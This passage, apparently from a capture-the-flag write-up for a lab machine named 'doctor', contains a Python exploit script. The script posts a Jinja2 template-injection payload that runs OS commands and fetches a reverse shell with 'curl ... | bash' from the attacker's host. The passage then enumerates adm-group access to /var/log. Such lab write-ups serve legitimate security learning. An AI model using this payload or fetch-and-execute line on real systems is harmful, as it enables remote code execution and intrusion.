 ```python
payload = {'username':username,'email':email,'password':password,'confirm_password':password,'submit':'Sign Up'}
r = s.post(url+'/register',data=payload)

# Login
payload = {'email':email,'password':password,'submit':'Login'}
r = s.post(url+'/login?next=%2Fhome',data=payload)

# Create message
{% raw %}
title = "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}"
{% endraw %}
payload = {'title':title,'content':'content','submit':'Post'}
r = s.post(url+'/post/new',data=payload)

# Get Reverse shell
command = requests.utils.quote('curl -L http://'+ip+'/payload | bash')
r = s.get(url+'/archive?input='+command)
```

## User flag

After getting a reverse shell, [I have upgraded it](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html) and then started to enumerate the box:

- The existing users in this box, based on the enumeration of home folders are **shaun** and **web**

- Checking the groups that the current user **web** is member, we notice that this account is a member of group **adm**

```bash
web@doctor:/home$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
```

  - The **adm** group on Linux systems grants access to files located at `/var/log`, which will possibly allow us to find some sensitive information in the logs from web services or other tasks.

### Analyzing log files under /var/log

So to start this analysis let's see which components, besides the system defaults, we have being logged on this box

```bash
web@doctor:/var/log$ ls -ld */
drwxr-x---  2 root              adm             4096 Jan 31 00:00 apache2/
drwxr-xr-x  2 root              root            4096 Sep  7 12:13 apt/
drwxr-xr-x  2 root              root            4096 Jan 31 00:00 cups/
drwxr-xr-x  2 root              root            4096 Apr  8  2020 dist-upgrade/
drwxr-xr-x  3 root              root            4096 Apr 23  2020 hp/
drwxrwxr-x  2 root              root            4096 Jul 26  2020 installer/
drwxr-sr-x+ 3 root              systemd-journal 4096 Jul 20  2020 journal/
drwxr-xr-x  2 root              root            4096 Sep  5  2019 openvpn/
drwx------  2 root              root            4096 Apr 23  2020 private/
drwx------  2 speech-dispatcher root            4096 Jan 19  2020 speech-dispatcher/
drwxr-x---  2 root              adm             4096 Jan 30 19:13 unattended-upgrades/
```
